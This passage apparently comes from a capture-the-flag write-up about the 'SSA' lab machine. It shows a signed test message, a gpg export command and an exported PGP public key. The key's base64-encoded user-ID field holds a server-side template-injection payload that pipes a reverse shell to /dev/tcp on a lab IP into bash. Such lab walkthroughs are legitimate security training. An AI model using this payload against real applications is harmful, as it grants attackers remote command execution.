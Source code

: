     this is a test message for the SSA
    -----BEGIN PGP SIGNATURE-----

    iQHEBAEBCgAuFiEEaPTvcECSM3P05qiDKfMo+uSKXZIFAmVTuGYQHHJjZS1yZXZA
    c3NhLmh0YgAKCRAp8yj65IpdknPQC/0QpEh+5M5DMC+DRPyLu0HE+VfVZeQ45pOH
    S5l2KW1+Vmj8ptEveo6RnWF4I82RACrX6Rd/grY9E8abaY6WFGunbWMXlFPyAGc7
    IGxzd02uvABwUSxiZemJnJEI1kmVh7cqhaKkYiDMyG6Xy3WRl6sgoFm7HJOq/SKg
    SB8/eL0B74BvdKaMrprka/q3VJQphBQwWJDwuDJfyKuGIR7BBqLgm6cgtasCXFo1
    qZRYEKS9h8d9kzqUR6NrJFSO3yY/78LF3UaHt+3KRlDKEiGUhFJQDIR064J961nV
    3Nsp1YTIW8KYpnfcIIbM+VOFo/eDiPCyBKM67p8zGIGotgLB9wpCvKiD0JIHVMmW
    S3abZLXMmAtmrsW9ZGo5L1/FD92T1r0vYxlH+L6KRnQYzSYy+tskBPWjvfHZW6yV
    PtvWjEpFVio3SP5647p6+AbrboXfxZvcqMoePzWaVlNFst0hQDClXaDYaWeDxWv4
    EDwVLMWm2GplPfawE+Bg0I4HvSgj7U4=
    =dDIr
    -----END PGP SIGNATURE-----
    oxdf@hacky$ gpg --export -a rce-rev@ssa.htb
    -----BEGIN PGP PUBLIC KEY BLOCK-----

    mQGNBGVTuBkBDADF3/fo3OL+jyM1HYyInEguIKCXv9lseHpIHzzjU/+Q2womH8zq
    xwatpT3j2f5N8TGhtS3KsG9pwNxS6+Oj4YS5IzSMOg164fXJLy0nAh0OcEpr3/ei
    yy/2JxwvyL1HYXS/v5sXb9pZAVk3GP4rUSTS7itugPqE/MzhegBwHiZa3HgSBxq5
    C23j5BIQOdGrdYqceVWHtxSqYu/6hTo508+lpdqZZ9temaaz2l063GD0ck0jklKT
    txeJyHUDmsDgRbDvC6kxCmg4coFRJoWw47+b2fIY3Mw5rMfq9vmnCfhAPxb/dCwB
    Hc27MhA8wywNbutge9nfemgdlyCQ65C3UwbUCXH1ERqcJrbNlFb1ejmst6SjwU2Y
    wXC4PweADTsCfu1514sfGJI0DMWFoxMH5gEgHySoAqNandJGsCr4WXFJhXQzVQOc
    dMZQh8DS3NveD+SquTKddo4CYe3uhFaXmKn/htnzdIBeFcNYKqjegXpd5nSc5Rg+
    yHxJIF1HxDlDjtkAEQEAAbSae3sgbmFtZXNwYWNlLl9faW5pdF9fLl9fZ2xvYmFs
    c19fLm9zLnBvcGVuKCdlY2hvIFltRnphQ0FnTFdrZ1BpWWdMMlJsZGk5MFkzQXZN
    VEF1TVRBdU1UUXVOaTgwTkRNZ01ENG1NU0FLIHwgYmFzZTY0IC1kIHwgYmFzaCcp
    LnJlYWQoKSB9fSA8cmNlLXJldkBzc2EuaHRiPokB1AQTAQoAPhYhBGj073BAkjNz
    9OaogynzKPrkil2SBQJlU7gZAhsDBQkDwmcABQsJCAcCBhUKCQgLAgQWAgMBAh4B
    AheAAAoJECnzKPrkil2S1UoL/2K2unHJpZtQhLmUXqWkUnDGgcJxtSR55NSE08E7
    CgyUG7dcwcruf5jJjXeGGZpQcSOmhOuRUdZYLOPXkjF9EWhcWHzPw4+cOlgnmZxa
    F63Cu2aSR5L/0BwZOKUw9l6Ruk2q+dFzoT+wwOw1QuPZ8t6VcvCVLDiKJ71tiSgk
    nllNVGU0nsFNF/++jIjzl6Fbtj05ljfmNdboIZRlGuH6Bi9mh5wU1txc3+eTJ8/I
    S27kUlkSBuRDYJkx2cQrW+JOQrBF0AN8+z4Ku30yDS6p8lqTDk8iCWbLjDK19FIE
    wVOV12vMkLQVEsv39PPTHZkjmPK1BOEpGi2f8ZTF2ipK/lgXUrAGq0cpxJFurhBm
    U0ONNmlwTnPR2ircAaR+TtEL9BoSHDs9mRKe028u/YVZxD+FDfvEWsWOZIrJvZjG
    MEoH89R4SJGVOtSzXqCP5cgzS/1B1qc8yY2ymyAwmjEqVWSU8hm7JokS6ApNK+0M
    OSv4eA8KHOW/VfHusaYpKR2Ai7kBjQRlU7gZAQwAtBsJc4ZM8JvfNub9IyTxP7MK
    M1Kq3RDDK9ghKN2SrecvxsSZ4o+8hiYer7aBevxRfczM6hEUIIFSO4e81203NWQc
    GoE/BthFK89uLMCHsL/raVIhmc2u61u2Oz617gy+9fgtgKsqfshnGjLNJ4TZNW8i
    730jvQ+5Tf65IMLdclwItJ3YUFrEnnELymV3T30cFnx3ou6v9ESgrZrntsxjR3f8
    GRLzYPnB4nQ89b6bIfoE/cV4rv3ul7AErK9T2RRRO8HHqcHVWcB7Hnij063zXsNi
    pFJKkAxASNfhQHOFHJBuiCnrM2/HeeT4nnr/9lK+fkxo0uI6dfFAaRYac95iHX1R
    uMTGFHzWW0Aw/CTaj+dFjZX8A6wFJ/kwvaWh/woXN2uL7UtyvLyhsDIXzu3Deyhp
    Vv3V867L1wnEaCuvYl2PQkMSgQ7TPKX8VccrSLWiuc/aBeKDbENt6pqOLGn+gPAN
    EVigVQjlIEkwHHBTHIeT7AzlhiSUlCdHknTgTJq9ABEBAAGJAbwEGAEKACYWIQRo
    9O9wQJIzc/TmqIMp8yj65IpdkgUCZVO4GQIbDAUJA8JnAAAKCRAp8yj65IpdkoZD
    DACNIrLtVsTYXCWvkNZAmQizlcylIObfRwqwbTfOCmTDpvUH+kgSzW4YgBb9Xf1f
    e6sJeI9H255L5ibz2I5FcJe27BBjYlGH7pYX3KFvPIK+9SV7OLh6/CG2Ez+Q49Qe
    mUSYdlLRlb6A+42TK/3RXkyTiD6S0jhPYBdxPkAcclxq7IiJoeah14z7nsVgSS8R
    wxwvr4jBLEJcidhHx6xnXOjxLGyZxLvwms1YPRUAWQI7WinqLKekvP9Lyzw8yftu
    O3Z/5pjNZKOdocuCxs8S5XGs7shQmv1M3fiYT3JuzDZ00nBJoRhY/sWIperaQOd1
    3O6Vpan63QV7Hatadg+eSmkpf2FOaMb2VEoehxDPFyut3JbJSG0pIXAzcZbwdcXP
    K8J4ckXxJheyUwP+qjddR2rbz89SDwVHmB1Y4tx2oTxNWOWpYkpZSmAxeDLJOpTa
    fyNyB5rUFFnOdwy0q5dziMOn43QdlYRtzATiJbAldQe5ge5Yelte842DKEhrPSHQ
    ARc=
    =GTRb
    -----END PGP PUBLIC KEY BLOCK-----

